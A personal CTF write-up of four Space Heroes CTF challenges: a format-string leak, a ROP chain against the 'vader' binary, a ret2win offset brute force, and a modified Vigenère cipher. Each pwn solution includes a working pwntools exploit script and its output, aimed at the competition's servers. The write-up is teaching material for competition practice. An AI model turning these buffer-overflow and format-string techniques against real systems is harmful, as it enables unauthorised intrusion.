

import Challenge from '@/components/mdx/Challenge.astro'
import InfoBox from '@/components/mdx/InfoBox.astro'

## Intro

So me and a couple of LFGs (looking-for-groups) played [Space Heroes CTF](https://ctftime.org/event/1567/), organized by Florida Tech's [FITSEC](https://ctftime.org/team/65296) cybersecurity team. As one of the first CTFs I've played in over a year, it was an amazing learning experience for me being thrown into the mystical world of binary exploitation/pwn. I've made a couple of writeups for the cooler challenges I've solved; enjoy!

---

## Guardians of the Galaxy

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['GlitchArchetype']}
  category="pwn"
  points={100}
  files={['guardians']}
>
  Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format?  
  `nc 0.cloud.chals.io 12690`
</Challenge>

```ansi
$ checksec guardians
[*] '/home/kali/ctfs/shctf/guardians/guardians'  
    Arch:     amd64-64-little  
    RELRO:    Full RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      PIE enabled
```

Let's look at what happens when you run that binary given to us:

```ansi
$ ./guardians 
Error, please message admins with 'infinity_error'.
```

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

```ansi
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf(){:c}`. We will need to work our way up the stack with the format `%n$s{:c}`, where `n{:c}` is the decimal index of the argument you want, and `s` is the `printf(){:c}` specifier for a **string of characters**. Here is a Python script used to brute force our way up:

```py title="solve.py" caption="Brute-forcing the format string" showLineNumbers
#!/usr/bin/env python3
from pwn import *

for i in range(0, 100):
    p = remote("0.cloud.chals.io", 12690)
    log.info(f"Trying offset {i}...")
    p.sendline(bytes((f"%{str(i)}$s"), encoding="utf-8"))

    output = p.recvS()
    if 'shctf' in output:
        log.success(output)
        break
```

This script will send a UTF-8 encoded format string, with `str(i)` being the iterating variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

```ansi
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```

---

## Vader

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['v10l3nt']}
  category="pwn"
  points={100}
  files={['vader']}
>
  Submit flag from `/flag.txt` from `0.cloud.chals.io:20712`
</Challenge>

```ansi
$ checksec vader
[*] '/home/kali/ctfs/shctf/pwn/vader/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As with any other sourceless pwn challenge, we first need to boot it up in the **Ghidra** disassembler for static analysis. Let's check what our `main(){:c}` function does:

```c caption="Analyzing main() function"
undefined8 main(void) {
    char local_28 [32];

    print_darth();
    printf("\n\nWhen I left you, I was but the learner. Now I am the master >>> ");
    fgets(local_28,0x100,stdin);
    return 0;
}
```

Looks like it reads our input (`stdin`) with a fixed length of 256 through `fgets(){:c}`. Let's continue sifting around:

```c caption="Analyzing vader() function"
void vader(char *param_1,char *param_2,char *param_3,char *param_4,char *param_5) {
    int iVar1;
    undefined8 local_38;
    undefined8 local_30;
    undefined8 local_28;
    undefined8 local_20;
    FILE *local_10;

    iVar1 = strcmp(param_1,"DARK");
    if (iVar1 == 0) {
        iVar1 = strcmp(param_2,"S1D3");
        if (iVar1 == 0) {
            iVar1 = strcmp(param_3,"OF");
            if (iVar1 == 0) {
                iVar1 = strcmp(param_4,"TH3");
                if (iVar1 == 0) {
                    iVar1 = strcmp(param_5,"FORC3");
                    if (iVar1 == 0) {
                        local_38 = 0;
                        local_30 = 0;
                        local_28 = 0;
                        local_20 = 0;
                        local_10 = (FILE *)0x0;
                        local_10 = fopen("flag.txt","r");
                        fgets((char *)&local_38,0x30,local_10);
                        printf("<<< %s\n",&local_38);
                    }
                }
            }
        }
        else {
            printf("You are a wretched thing, of weakness and fear.");
        }
        exit(1);
    }
    return;
}
```

The goal is now clear: call the `vader(){:c}` function with five correct arguments to print the flag. Simple, right? Let's start building our chain.

Firstly, we need to calculate our **offset**. Although we can brute this by simply passing a `cyclic` string and seeing what's overwritten the `$rsp` register, we can see that in the `main(){:c}` function, 32 bytes are allocated to `char local_28{:c}`. We can assume this is the buffer, so if we overflow this and append an additional 8 bytes to cover the `$rbp` register, our offset is 40.

Next in line is the process of getting our arguments on the stack. Arguments to be passed into functions are also held in registers -- we need to figure out which ones we need to use to pass the correct arguments (`DARK`, `S1D3`, `OF`, `TH3`, `FORC3`) into `vader(){:c}`. Referencing [this x64 cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf) (as the registers are different depending on the bitness/architecture of the ELF):

> To call a function, the program should place the first six integer or pointer parameters in the registers `$rdi`, `$rsi`, `$rdx`, `$rcx`, `$r8`, and `$r9`; subsequent parameters (or parameters larger than 64 bits) should be pushed onto the stack, with the first argument topmost. The program should then execute the call instruction, which will push the return address onto the stack and jump to the start of the specified function.

Therefore, we need to put our arguments into `$rdi`, `$rsi`, `$rdx`, `$rcx`, and `$r8`. The main method of doing this is via **gadgets**, or simple assembly instructions that can be used to `pop` specific registers from the stack. After the `pop`, we can repopulate the register with our own address that represents the required string (this address will be located within the binary). Additionally, they almost always have a `ret` instruction at the end to return to _even more_ gadgets, therefore creating a **ROP chain**.

<InfoBox type="info">
**Note**: The program literally provides gadget functions for you:

```ansi
00000000004011c9 <gadget1>:
  4011c9: 55                    push   rbp
  4011ca: 48 89 e5              mov    rbp,rsp
  4011cd: 59                    pop    rcx
  4011ce: 5a                    pop    rdx
  4011cf: c3                    ret
  4011d0: 90                    nop
  4011d1: 5d                    pop    rbp
  4011d2: c3                    ret

00000000004011d3 <gadget2>:
  4011d3: 55                    push   rbp
  4011d4: 48 89 e5              mov    rbp,rsp
  4011d7: 41 59                 pop    r9
  4011d9: 41 58                 pop    r8
  4011db: c3                    ret
  4011dc: 90                    nop
  4011dd: 5d                    pop    rbp
  4011de: c3                    ret
```

Although you can use these, it's not really in the nature of a ROP challenge, so I will be finding the gadgets manually!
</InfoBox>

To find the gadgets we need, we will be utilizing a program called `ropper` and `grep`-ing the output:

```ansi highlight{15}
$ ropper -f vader | grep "rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040145e: add byte ptr [rax], al; mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011bc: add byte ptr [rax], al; mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015e9: add byte ptr [rax], al; mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b7: mov ecx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010b6: mov rcx, 0x401600; mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x00000000004010bd: mov rdi, 0x4015b5; call qword ptr [rip + 0x3f26]; hlt; nop dword ptr [rax + rax]; ret; 
0x0000000000401460: mov rdi, rax; call 0x1030; nop; pop rbp; ret; 
0x00000000004011be: mov rdi, rax; call 0x1040; nop; pop rbp; ret; 
0x00000000004015eb: mov rdi, rax; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010f6: or dword ptr [rdi + 0x405060], edi; jmp rax; 
0x000000000040165b: pop rdi; ret; 
```

Check it out -- at the bottom of the code block (`0x40165b`) there's a perfect gadget for us to use! Let's find ones for the rest of them:

```ansi
0x0000000000401659: pop rsi; pop r15; ret; 
0x00000000004011ce: pop rdx; ret; 
0x00000000004011d8: pop rcx; pop r8; ret; 
```

The first `pop rsi; pop r15;{:ansi}` isn't ideal, as it's popping a redundant register -- we'll need to repopulate it with 8 bytes of garbage. On the other hand, the `pop rcx; pop r8;{:ansi}` takes care of two registers at once!

With that, we can draw up a visual of what our final payload will look like:



The last thing we need to do is to find the hex addresses of our argument strings:


Don't forget the address of `vader(){:c}` too!:

```ansi
gef➤  x vader
0x40146b <vader>: 0xe5894855
```

Here is my final script, which defines a variable for each section of our gigantic payload — this is for enhanced readability. I've also used the `p64(){:py}` function, which converts the address into little endian:

```py title="solve.py" caption="Final solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

offset =        b'A'*40         # OVERFLOWING 32 + 8 BYTES FOR $RBP

rdi =           p64(0x0040165b) # RDI, RSI, RDX, RCX, & R8 ARE ARGS REGISTERS
rsi_r15 =       p64(0x00401659)
rdx =           p64(0x004011ce)
rcx_r8 =        p64(0x004011d8)

dark =          p64(0x00402ec9) # ADDRESSES FOR STRINGS IN THE BINARY
side =          p64(0x00402ece)
r15_garbage =   p64(0xCAFEBEEF) # GARBAGE
of =            p64(0x00402ed3)
the =           p64(0x00402ed6)
force =         p64(0x00402eda)

vader =         p64(0x0040146b)

payload = offset
payload += rdi + dark                   # POP RDI, STORING "DARK"
payload += rsi_r15 + side + r15_garbage # POP RSI & R15, STORE "S1D3" + GARBAGE
payload += rdx + of                     # POP RDX, STORING "OF"
payload += rcx_r8 + the + force         # POP RCX & R8, STORING "TH3" + "FORC3"
payload += vader                        # ADDRESS OF VADER

p = remote("0.cloud.chals.io", 20712)
p.sendline(payload)
log.success(p.recvallS())
```

I don't usually do this, but here's a clip of me initially solving the challenge by running the above script:

<iframe
    width="560"
    height="315"
    src="https://www.youtube.com/embed/rvMORfSC2CU"
    frameborder="0"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowfullscreen
    className="my-6 mx-auto"
/>

This is considered a "simple" challenge for those experienced with the field of return-oriented programming within pwn/binary challenges. However, I had none prior to this competition, so Vader was one of the most time-consuming and annoying challenges to work with. Yet, it was probably the most satisfying solve throughout the entire competition, and it was my first time utilizing gadgets and building a ROP chain. I hope you enjoyed!

## Warmup to the Dark Side

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['v10l3nt']}
  category="pwn"
  points={100}
>
  Once you start down the dark path, forever will it dominate your destiny. (And yes, the binary isn't included)  
  `nc 0.cloud.chals.io 30096`
</Challenge>

Let's run that `netcat` link to see what's going on:

```ansi
$ nc 0.cloud.chals.io 30096  
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c  
Jedi Mind tricks dont work on me >>>
```

We're given an address of the `win(){:c}` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increased the buffer of the payload with a loop until I found the correct offset of the `$rip`:

```py title="solve.py" caption="Final solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

for i in range(32,128):
    p = remote("0.cloud.chals.io", 30096)
    address = p.readlineS()[112:126]
    log.info("Trying offset " + str(i) + " for address " + address)
    p.sendline(b'A'*i + p64(int(address, base=16)))
    output = p.recvallS()
    if "shctf" in output:
        log.success(output)
        break
    p.close()
```

Let's run this script on the server to see if we can get the flag:

```ansi highlight{17}
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>>
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```

---

## Rahool's Challenge

<Challenge
  solvers={[
    {
      name: 'enscribe',
      href: 'https://github.com/jktrn',
      avatar: 'https://github.com/jktrn.png',
    },
  ]}
  authors={['excaligator']}
  category="crypto"
  points={331}
>
  `nc 0.cloud.chals.io 10294`
</Challenge>

Let's open that `netcat` link to see what's going on:

```ansi
$ nc 0.cloud.chals.io 10294
                                    ,/(####((((/**.                                                  
                                *#%%%%%%%%%%%%%%########(#####((((/*,                                  
                            ,&&&&&&&&%%%%%%%%%%%%%%%%%%%%%%%%#(##((((///*                              
                        .#&&&&&&&&&&&&&&&&&%%%%%%%%%&&%%%%###((((*,.     ...                          
                        .%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%%%%,.,               .                       
                        #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%%%%,,,, .. ..             .                    
                        *&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&#,*,*,,,,..,                .                  
                    .%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&(*****,//,..., ,.  .  .,..                       
                    %&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&,****,***,*.****... .*//((((/,                    
                    (&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&#,***//**,**,*,***,,*((/////(##(*                   
                    *&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&/,****,**,**,,*,*,,/##/////((/(%#/.,                 
                    %&&&&&&&&&&&&&&&&&&&&&&&&&&&&&,,*********/,,*/*,/%&########%%#(%/..                 
                    (&&&&&&&&&&&&&&&&&&&&&&&&&&&&#,,,,***,**,**//*,,(&%###%%%%%#((&&%%(.                 
                .&&&&&&&&&&&&&&&&&&&&&&&&&&&&****,*/,*,**/***,,,%&####%&%%%%#/*#&&&(/,                
                #&&&&&&&&&&&&&&&&&&&&&&&&&&&,*,,,*/,**///*,**,/&&#(*.,%%%(/(%(#(&&&#(.                
                .&&&&&&&&&&&&&&&&&&&&&&&&&&(,*,**********/,**/%&&%%%(. .###(/*/(%&&&#*,                
                #&&&&&&&&&&&&&&&&&&&&&&&&@*,**,**,,/*/*,,,,/&@&#%%%##(,  ,,,,.. /&&&/,,                
                %&&&&&&&&&&&&&&&&&&&&&&&&,,,**,,,*,*****,/%@@%#####%%#,.    ..  *&&%(.                 
                ,&&&&&&&&&&&&&&&&&&&&&&&&*,*,**/,*,,***,/#@@%((((%#####(,.      .*&&#(,                 
                (&&&@&&&&&&@@&&&&&&&&&&&,,**,,*,/****,*(&@&(((##&&&&&&%##(/,. ...(&&#,                  
                ,&&&&&&&&&&&&&&&&&&&&&,**,***,*,**/#@&###(#((#####((/*,,*,.. ...,&%* .                  
                ,&&&&&&&&&&&&&&&&&&&@****/**/,,***&@&%######%%&&&&%#######%#,,..#&#, .                  
                %&&&&&&&&&&&&&&&&&&%,****/*,,,(&@&&%%%#####(############(*../,.%%(, .                  
                /&&&&&&&&&&&&&&&&&&/,***,***,/&@&%%%%%#########((/*,,,,,,,...,*&#( ,                   
                ,&&&&&&&&&&&&&&&&&&,***,,,**,%@&&&%%%%#########(/*,.       ...#%(/ .                   
                %&&&&&&&&&&&&&&@&&#**,**///*/@&&&&&&&%%%%%%%%#####(/**,,...../%#(,.                    
                (&&&&&&&&&&&&&&&&&@/,*/,/*//**&&&@@@&&&&&&&&%%%%%%%%%%#%#(*,*####(*,                    
                ,%%&&&&&&&&&&&&&&&&&*,*/***/**,%&%&@@@@@@@@@@&&&&&%%%%%%##(, ./(##(,,                    
                **,,*(#&&&&&&&&&&&&#*,/***/*/,,(&#(#(((##%&&&&&&&&&%%####/.   ,/(((*.                    
            ******,,**(%&&&&&&&%/***(******.*%#%%%###(#((((##(*.            ,/((,                     
            ,******,**,,***#%&&&%*,,,/*/,*/*..&%########((((##(/*,.            //.                     
            ,***********//*,,**/(****/*//*//, &&&%#%%%%###(((////(**..         ,///*******,.           
            ((,,****/********/*//***///(/**, %&@&&#(######((((/**, .   .       //#%&&&&&%(***/,       
        ,#&&&&&&%*,*//*****,***/(/**/////***.%@@@@&%##(/(/((((#((/,..    .    .//(#%&&&&%(********    
    @%%%%%&&@@@@@@@@@@(*****//**/*///**/((*/**.&@@@@@&&%%%##(/*,,/..... .     . *((#/*####(/***/********
    &@@@@&%##%%&&&@@@@@@@&(**/*/*///(/////(///.@@@@@@@&&&%%&%###((**/....   ,, .#((#//((#(/***//******/*
    &&%%&@@@@&%%%%%%%%%&&@@@&/*//***/(///(///*.&&@@@@@@@@@&%#%%####((,*,,.,,,  (#(##/(##(******/*****///
    %%%%%&@@&&&&&@@@&&&&%%%%&&@@/****/#(//(//,,&&@&&@@@@@@@@&&%#(#%%/#/.,... ,#((/*//**(******/*****////
    %%%%&&%&&&%%%%%%###%%&&&&&%%%&#*///((///* /&&@@@@@@@@@@@@@@@&%(/*,,.. *#%#*****///**/****/*****////*
    &&&&&&&&&&&&&&&%%%%%%#%######((//////(*(, (&#,(((##(##((##&&&%%#/****//(((%%**//*///((/(/****//(/***
    %%##########((((//(/(///////////(((((///,*////((((((((/(((((#(((((//***///((%%*///////((/(*//(/****/
    &&&&&&&&&&&&&&&&&&&&&&&&%###((((/////////(((((((#(######(((//////(///((//***//&(*///*////((((/**///*
    &&&&&&&&@&&&&&&&&&&&&&&&%####(((((//////(///////((((((///(((((((((((((/////////(&/*/////**/(((/*///*
    &&&&&&&&&&&&&&&&&&&&&&&&&%#((((((((((//////////////////////((((((((((////////////(%/**//*/*///(/////
    &&&&&&&&&&&&&&&&&&&&&%###(#####(((////////***/*/////*////////////////////////////(#&&(**////***/((#(
    &&&&&&&&%&%%%%%%%%#####%%##((((((((/((////////*/*****////////*/*//////////(((####((/##**/****//,

    ESDK EDS NFIMNGDJTB XEZVZ OWV KOYRTI KT ZCT BOZ CDIY DIK Z PJ K UNMTV DIK J PJ K AKMD NSUN OWV GPXY
    TEQSGH PWDFX RXKR UNZ P RC B LJJI KOJ VDXXFX MXXRU GAIVB


    We've found ourselves an encrypted engram - Can you break the (new and improved) indecipherable cipher?
    Message:A + Key:B = 0 + B = O
    Enter the answer with no spaces and all upper case:
```

For themed CTFs, I find it really fun to figure out the cultural references in the challenge before solving them. In this case, **Rahool** is a vendor in the _Destiny 2_ Tower that can decrypt legendary engrams (purple) and sell exotic engrams (gold). Uncoincidentally, that's what we'll be doing here.

Immediately, we can tell that the ciphertext underneath the giant Rahool ASCII is substitution. This means that the plaintext is simply substituted by a value determined by the algorithm. Throwing it into this [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier), we find that it is a **Vigenère** cipher.

Before moving on, we need to figure out what the hell a Vigenère is.

### The Vigenère Cipher

A Vigenère cipher is a type of encryption that uses both plaintext and a **key**. There are many ways to use this encryption method, but the most common is via **addition** and **table/tabula recta**.

To encrypt using addition, take the position in the alphabet of the first letter in your plaintext (make sure it starts at 0, i.e. A = 0, B = 1, C = 2) and add it with the position of your key (if the key was "key", the position would be 10 as K = 10). Then, take the **modulo** 26 (divide by 26 to get the remainder, symbol `%`), as some numbers add up to greater than 26.

```text
Plaintext: hello
Key: key
h (07) + k (10) = r (17 % 26 = 17)
e (04) + e (04) = i (08 % 26 = 08)
l (11) + y (24) = j (35 % 26 = 09)
l (11) + k (10) = v (21 % 26 = 21) <- Note that the key cycles
o (14) + e (04) = s (18 % 26 = 18)
Ciphertext: rijvs
```

In a formula, where A is the plaintext's alphabetic position and B is the key's alphabetic position, in that would be:

$$
C = (A + B) \bmod 26
$$

It'll be a more manual process (albeit more fun) for encrypting via table/tabula recta. Let's check out what it looks like (Source: [Wikipedia](https://en.wikipedia.org/wiki/Tabula_recta)):


Each of the 26 rows contains the same alphabet, except shifted to the left by one position. At the top, each **column** is associated with a letter in the alphabet. To the left, each **row** is associated with a letter in the key.

If I wanted to encrypt `HELLO` with `WORLD` as the key, I would find the cell that intersects with column `H` and row `W`. In that case, it would be `D`. Then, I would find the cell that intersects with column `E` and row `O`. In that case, it would be `S`. Rinse and repeat for the entire phrase.

### Cheaters Never Win...

But how are we supposed to decrypt vigenere without a key? Let's do some "OSINT" and Google the crap out of it. [DCode](https://www.dcode.fr/vigenere-cipher), which can keylessly decrypt substitution ciphers, is the first option. Click, clack, `Ctrl + Shift + C`, `Ctrl + V` later and we have solved it!!1!1!


Or not. Wait... the plaintext is telling me to replace my `E` with a `3` and my `O` with an `0`. Those aren't in `RKBGVP`. What's going on? Is the website wrong?

### ...Or Do They?

Let's go back to the drawing board and look at the problem again.

> We've found ourselves an encrypted engram - Can you break the **(new and improved)** indecipherable cipher?
> Message:A + Key:B = 0 + B = O

Since this cipher is "new and improved", we can assume it's not just your normal Vigenère. However, the `A + B = O` is the biggest giveaway of what we are meant to do for this challenge.

**Take it literally. The letter A (plaintext) plus the letter B (key) is equal to the letter O (ciphertext).**

I solved this challenge via **known-plaintext attack**. Yeah, it sounds fancy. But here's what I actually did:


This is a tabula recta with a modified offset. You see how intersecting column A and row B would return O?

Since we know our plaintext, we can use this table "backwards" to find the key. If you go down the column of your letter and find its equivalent ciphertext letter, it would be on the same row as the key for that letter!

For example, if `C` is our plaintext and `Q` is our ciphertext, the key would be `B`.

Let's follow this process for the actual plaintext/ciphertext:

```text
Ciphertext: ESDK EDS NFIMNGDJTB XEZVZ OWV KOYRTI KT ZCT BOZ CDIY DIK Z PJ K UNMTV DIK J PJ K AKMD NSUN OWV GPXY TEQSGH PWDFX RXKR UNZ P RC B LJJI KOJ VDXXFX MXXRU GAIVB
Plaintext: NICE JOB DECRYPTING INPUT THE ANSWER AS THE KEY WITH THE E AS A THREE THE O AS A ZERO WITH THE WORD ENGRAM AFTER WITH THE A AS A FOUR AND AOGNER RIGHT AFTER
```

```text
E + N -> E
S + I -> X
D + C -> O
K + E -> T
E + J -> I
D + O -> C
S + B -> E
N + D -> X
F + E -> O
I + C -> T
M + R -> I
N + Y -> C
G + P -> E
...
```

The key is `EXOTIC`, as in how Master Rahool sells exotic engrams. Very funny.
We can now follow the instructions in the plaintext and send it to the server with an unnecessary `pwntools` script:

```py title="solve.py" caption="Final solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *

p = remote("0.cloud.chals.io", 10294)
p.sendline("3X0TICENGR4MAOGNER")
log.success(p.recvallS())
```

Sending the string:
```ansi highlight{4}
$ python3 rahools-challenge.py
...
[+] Excellent work, you'll be a cryptarch yet. Here's your flag:
shctf{c0Me_baCk_s0on_w3_n33d_the_chAll3nge}
```

We just solved `Rahool's Challenge` without needing to write any algorithms!
